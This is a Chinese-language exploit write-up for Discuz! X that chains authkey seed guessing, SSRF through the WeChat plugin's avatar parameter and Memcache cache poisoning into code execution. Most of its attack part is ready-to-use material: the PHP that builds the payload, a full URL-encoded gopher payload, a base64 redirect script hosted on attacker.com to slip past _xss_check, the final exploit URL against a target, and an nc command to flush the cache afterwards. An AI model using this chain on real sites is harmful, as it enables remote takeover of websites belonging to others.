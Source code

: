 ```yaml
---
title: "Discuz authkey+Memcache+ssrf getshell"
id: zhfly2870
---
```


# Discuz! X authkey+Memcache+ssrf getshell

## 一、漏洞简介

需要得到authkey

## 二、漏洞影响

## 三、复现过程

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![image](../img/93b92ad9102837854f7b8dc19754955d.png)

Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF 要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php` 345-357行：

```
 $uid = DZUCFULL ? 1 : $adminuser['uid'];
        $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
        $_config['db'][1]['dbhost'] = $dbhost;
        $_config['db'][1]['dbname'] = $dbname;
        $_config['db'][1]['dbpw'] = $dbpw;
        $_config['db'][1]['dbuser'] = $dbuser;
        $_config['db'][1]['tablepre'] = $tablepre;
        $_config['admincp']['founder'] = (string)$uid;
        $_config['security']['authkey'] = $authkey;
        $_config['cookie']['cookiepre'] = random(4).'_';
        $_config['memory']['prefix'] = random(6).'_';

```
 save_config_file(ROOT_PATH.CONFIG, $_config, $default_config); 
``` 
```

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie 前缀以及缓存键名前缀，其中用到了`random`函数生成随机字符串。所以跟进这个`random`：

```
function random($length) {
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
    for($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
} 
```

可以发现，如果 PHP 版本大于 4.2.0，那么 `mt_rand` 随机数的种子是不变的。也就是说，生成 authkey、Cookie 前缀以及缓存键名前缀时调用的 `mt_rand` 用的都是同一个种子，而 Cookie 前缀是已知的，通过观察 HTTP 请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用 [php_mt_seed](https://link.zhihu.com/?target=http%3A//www.openwall.com/php_mt_seed/README) 进行种子爆破。

通过 `mt_rand` 种子的猜解，缓存键名前缀的可能性从 62^6 缩小到不到 1000 个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造 SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache 缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来 getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，`output_replace` 函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的 payload。写这样一段代码（先假设缓存键名前缀是 `IwRW7l`）:

```
<?php

$_G[‘setting’][‘output’][‘preg’][‘search’][‘plugins’] = ‘/.*/’;

$_G[‘setting’][‘output’][‘preg’][‘replace’][‘plugins’] = ‘phpinfo()’;

$_G[‘setting’][‘rewritestatus’] = 1; `$memcache = new Memcache;

$memcache->connect(‘localhost’, 11211) or die (“Could not connect”);

$memcache->set(‘IwRW7l_setting’, $_G[‘setting’]);` 
```

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：

```
gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D 
```

但是直接用它去 SSRF 是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

![image](../img/13737dd66822810385f459021365385b.png)

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：

```
<?php `$url = base64_decode($_REQUEST[‘url’]);

header( "Location: " . $url );` 
```

这样就可以将 SSRF URL 进行 base64 编码从而规避`_xss_check`的检测。

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy 
```

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![image](../img/09cb65c9789ccc82c3e51a854b7eb68c.png)

由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次 getshell 后执行以下命令，网站就可以恢复正常：

```
echo -e 'flush_all' | nc localhost 11211 
```

## 参考链接

> https://zhuanlan.zhihu.com/p/51907363